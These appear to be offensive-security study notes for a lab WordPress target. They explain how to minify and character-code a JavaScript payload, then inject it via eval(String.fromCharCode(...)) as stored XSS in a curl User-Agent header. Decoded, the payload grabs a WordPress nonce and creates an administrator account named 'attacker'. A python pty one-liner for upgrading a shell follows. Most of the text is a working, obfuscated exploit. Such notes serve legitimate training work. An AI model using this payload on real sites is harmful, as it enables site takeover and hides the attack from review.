 can use jscompress.com to minify JS payload 

afterwards we can encode it in utf-16 to make sure any invalid characters don't exist

charCodeAt -> converts to UTF-16

```
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

can then use the eval(String.fromCharCode) in the payload to decode the JS and execute it

```
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```

python2 pseudo-terminal
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
